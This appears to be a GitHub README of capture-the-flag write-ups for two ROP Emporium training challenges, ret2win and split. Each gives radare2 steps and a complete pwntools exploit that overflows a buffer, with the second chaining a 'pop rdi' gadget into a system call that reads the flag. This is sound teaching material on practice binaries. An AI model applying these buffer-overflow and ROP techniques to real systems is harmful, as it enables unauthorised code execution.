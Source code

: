 # ROP EMPORIUM <a name="ropemp"></a>

***

| Challenge          | Walkthrough                                                                                   |
| ------------       | --------                                                                                      |
| [Ret2Win](#ret2win)| [pdf](https://github.com/jpowellroot/Pwnfolio/blob/master/ROP_Emporium/Writeups/Ret2win64.pdf)|
| [Split](#split)    | [pdf](https://github.com/jpowellroot/Pwnfolio/blob/master/ROP_Emporium/Writeups/Split64.pdf)  |                                                                                     
| CallMe             |                                                                                               |
| Write4             |                                                                                               |

***

## RET2WIN 64 bit<a name="ret2win"></a>

> ### 1. Problem
>> In this challenge, there is a function called ret2win located somewhere
>> in the binary which can be used to cat the flag.txt file. The goal is to:
>>
>>> - [ ] Find offset of the ret2win function
>>>
>>> - [ ] Find out the buffer length
>>>
>>> - [ ] Overflow the buffer and overwrite `$rsp` with the ret2win address offset

> ### 2. Solution
>> - [X] Find offset of the ret2win function
>>> I used the `> afl` command in radare2 to list the functions with their offsets.
>>> This showed me that the ret2win function was located at address 0x00400756.
>>>
>> - [X] Find out the buffer length
>>> In the ROP Emporium challenges all of the buffers are 40 bytes long.
>>>
>> - [X] Overflow the buffer and overwrite `$rsp` with the ret2win address offset
>>> I used a pwntools script in order to execute the exploit.
~~~python

#!/usr/bin/env python

from pwn import *

elf = context.binary = ELF('ret2win')
context.log_level = 'debug'

padding = cyclic(40)
ret2win = p64(0x00400756)

payload = padding
payload += ret2win

io = process(elf.path)
io.sendline(payload)
io.wait_for_close()
io.recvall()

~~~

**FLAG:**  *ROPE{a_placeholder_32byte_flag!}* 

***

## SPLIT 64 bit<a name="split"></a>

> ### 1. Problem
>> In the split challenge, there exists a function that calls system along with
>> the string `/bin/cat flag.txt` which is all that is needed to get the flag. The 
>> twist is that they are split apart and need to be brought together. The goal here is to:
>>
>>> - [ ] Find the address offset of the system call
>>>
>>> - [ ] Find the address offset of the `/bin/cat flag.txt` string
>>>
>>> - [ ] Find a ROP gadget that can pop our string into `$rdi`
>>>
>>> - [ ] Overflow the buffer, overwrite `$rsp` and execute the exploit

> ### 2. Solution
>> - [X] Find the address offset of the system call
>>> Here I used the `> afl` command in radare2 to list the functions. From there I navigated to 
>>> the *usefulFunction* using `>  usefulFunction` followed by a `> pdf` command to disassemble
>>> the function. This gave me the address of the system call.
>>>
>> - [X] Find the address offset of the `/bin/cat flag.txt` string
>>> I used the `> iz` command in radare2 to print a list of strings in the binary. From here I 
>>> was able to find the address of the `/bin/cat flag.txt` string.
>>>
>> - [X] Find a ROP gadget that can pop our string into `$rdi`
>>> The `> /R pop rdi;` command in radare2 searches through the binary and lists all ROP gadgets
>>> that have the `pop $rdi` instruction. This gave me the address to the gadget.
>>>
>> - [X] Overflow the buffer, overwrite `$rsp` and execute the exploit
>>> As always, I created a pwntools script in order to execute the exploit.
~~~python

#!/usr/bin/env python

from pwn import *

elf = context.binary = ELF('split')  # setting up the envronment
context.log_level = 'debug'       

usefulstring = p64(0x601060)         # 'cat flag.txt' string
systemaddr = p64(0x40074b)           # call to system in usefulFunction
rop = p64(0x4007c3)                  # pop rdi; ret;
padding = cyclic(40)

payload = padding                    # junk to fill up buffer
payload += rop                       # pops '/bin/cat flag.txt' into rdi
payload += usefulstring              # string to be as the argument
payload += systemaddr                # call to system in useful function

io = process(elf.path)
io.sendline(payload)                 # sends payload
io.wait_for_close()                  
flag = io.recvall()
print(flag)

~~~

**FLAG:**  *ROPE{a_placeholder_32byte_flag!}* 

***
